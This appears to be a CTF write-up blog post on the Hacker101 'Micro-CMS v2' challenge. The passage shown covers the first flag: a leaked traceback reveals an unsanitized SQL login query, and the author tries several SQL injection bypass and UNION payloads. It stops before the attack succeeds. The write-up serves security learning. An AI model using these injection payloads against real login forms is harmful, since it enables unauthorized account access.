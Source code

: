 ```yaml
---
title: 'Hacker101 CTF: Micro-CMS v2'
date: 2021-09-25 17:19:06
tags:
categories:
- CTF Writeups
---
```

This is a part of a series I'm doing for the [Hacker101](https://www.hacker101.com/) CTF's.

This post will focus on the second CTF, named "Micro-CMS v2". This has 3 flags, and is rated as "Moderate".

This new CTF boasts several improvements upon the v1, and has the following on the changelog page in the CTF:
```
Version 2

This version fixed the multitude of security flaws and general functionality bugs that plagued v1. Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20. By default, users need to be an admin to add or edit pages now.
```

## Flag 0
Now, editing requires a login, but how can I get into an account without having the login details? Simple, I need a bypass.
To test for an SQL injection vulnerability, I simply wrote a single quote into the username box, hit enter, and got this error:
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```
Which reveals some nice information:
> The server is running on python (specifically 2.7)
> It's using MySQL
> It's using an SQL command that does not sanitize any input
So, to bypass, I first tried just using `' OR 1=1;--`, which does not work, maybe I should try a union attack?
First I try `foo' UNION SELECT 'admins', 'dummy';--` as my username, changing the SQL query to:
```sql
SELECT password FROM admins WHERE username='foo' UNION SELECT 'admin', 'dummy';--'
```
Which should work, right?
Nope, it interestingly decides to give me all the feedback I need to fix this however, and it spits out the following error:
```
The used SELECT statements have a different number of columns
```
To fix this, I simply inputed the same thing, but changed the number of dummy fields:
```sql
foo' UNION SELECT 'admins', 'dummy', 'dummy', 'dummy';-- 
```
But it seemed like however many I put in, it still spat out an error, except for when I put ONLY 1 field, "admin".
This still was not quite it though, and it returned with "Invalid password" (putting another dummy value inside of the password field did nothing here). 